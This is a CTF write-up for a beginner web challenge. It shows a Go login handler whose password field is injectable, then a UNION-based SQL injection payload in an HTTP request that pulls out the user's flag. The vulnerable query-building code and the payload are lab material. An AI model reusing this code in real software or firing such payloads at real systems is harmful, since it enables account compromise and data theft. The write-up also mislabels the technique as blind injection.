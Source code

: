 # What's My Password?

[baby] Oh no! Skat forgot their password (again)!

Can you help them find it?

![Alt text](image.png)

We can see that this web forms smells like an SQL injection. Looking through the source code can give us the query that is being executed.

First we need to some enumeration and static analysis.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

```go
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/signal"
	"regexp"
	"syscall"

	_ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func startWeb() {
	fmt.Println("Starting very secure login panel (promise)")

	fs := http.FileServer(http.Dir("/web"))
	Mux.Handle("/", fs)

	Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
		if r.Method != http.MethodPost {
			w.WriteHeader(http.StatusMethodNotAllowed)
			return
		}

		var input Account

		decoder := json.NewDecoder(r.Body)
		decoder.Decode(&input)

		if input.Username == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Username"))
			return
		}
		if input.Password == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Password"))
			return
		}

		matched, err := regexp.MatchString(UsernameRegex, input.Username)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			return
		}

		if matched {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Username can only contain lowercase letters and numbers."))
			return
		}

		qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
		fmt.Println(qstring)
		
		query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		defer query.Close()

		if !query.Next() {
			w.WriteHeader(http.StatusUnauthorized)
			w.Write([]byte("Invalid username / password combination!"))
			return
		}

		var result Account
		err = query.Scan(&result.Username, &result.Password)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		encoded, err := json.Marshal(result)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		w.Write(encoded)
	})

	http.ListenAndServe(":1337", Mux)
}

func main() {
	fmt.Println("Establishing connection to MySql")
	db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
	if err != nil {
		fmt.Println(err)
		return
	}
	DB = db

	defer DB.Close()

	startWeb()

	sigChan := make(chan os.Signal, 1)
	signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
	<-sigChan
}
```

We can see the web is written in go and uses mysql as database. 

```go
var UsernameRegex = `[^a-z0-9]`

...

if input.Username == "" {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Missing Username"))
    return
}
if input.Password == "" {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Missing Password"))
    return
}

matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
fmt.Println(qstring)
```
The username is being filtered with regex expression but the password is not. We can use this to our advantage.

To craft the payload we need to know what sql injection we can use. Although in source code above if the query statement is not correct it will return Internal Server Error. So this is error based blind sql injection.

Terminating the query with `"` will give us the error message. So we can build our payload like this `\" UNION SELECT password, username FROM users WHERE username = \"skat"`.

[REQUEST]
```r
POST /api/login HTTP/1.1
Host: 0.0.0.0:10031
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://0.0.0.0:10031/
Content-Type: text/plain;charset=UTF-8
Content-Length: 121
Origin: http://0.0.0.0:10031
DNT: 1
Connection: close
Cookie: PHPSESSID=1fcg181k9k2btq2nr8293rg1fj

{"username":"skat","password":"IamAvEryC0olRootUsr\" UNION SELECT password, username FROM users WHERE username = \"skat"}
```

[RESPONSE]
```json
{username: "irisctf{my_p422W0RD_1S_SQl1}", password: "skat"}
```